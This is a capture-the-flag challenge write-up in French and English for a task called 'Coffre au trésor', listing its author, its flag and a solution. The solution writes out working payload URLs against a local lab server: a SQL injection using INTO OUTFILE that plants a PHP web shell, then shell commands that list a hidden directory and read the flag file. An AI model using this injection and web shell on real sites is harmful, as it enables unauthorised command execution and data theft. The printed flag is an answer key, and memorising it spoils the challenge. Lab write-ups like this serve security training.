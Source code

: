 # Coffre au trésor
- Auteur: `zuyoutoki`
- Flag: `FLAG-LotsOfTreasuresAndRiches`

## Description (français)
Si je me rappelle bien, j'ai caché mon trésor sur le navire. Je ne me souviens plus de l'endroit précis, mais il me semble qu'il n'est visible qu'à celui qui peut exécuter.

## Description (english)
If I remember correctly, I hid my treasure on the ship. I can't remember the precise location, but it seems to me that it is only visible to those who can execute.

## Solution
Le flag s'obtient en accédant à un fichier dans un répertoire au nom qui ne se devine pas, ce qui demande à pouvoir énumérer les fichiers du répertoire. Dans notre cas, on peut utiliser le SQLi pour écrire un webshell dans le répertoire `/www`, lister les fichiers et récupérer le contenu du fichier plus caché.

1. Webshell upload: `http://127.0.0.1:5555/crew.php?id=0%20union%20select%20'%3C?php','system($_GET%5B%22c%22%5D);%20?%3E'%20INTO%20OUTFILE%20'/www/shell.php'`
2. Lister les fichiers: `http://127.0.0.1:5555/shell.php?c=ls%20-l`
3. Lister le contenu du répertoire: `http://127.0.0.1:5555/shell.php?c=ls%20-l%20treasure_trove-c655afdb7cf92ce4cfe9fa590dfa6f77`
4. Récupérer le contenu du fichier: `http://127.0.0.1:5555/shell.php?c=cat%20treasure_trove-c655afdb7cf92ce4cfe9fa590dfa6f77/index.php`
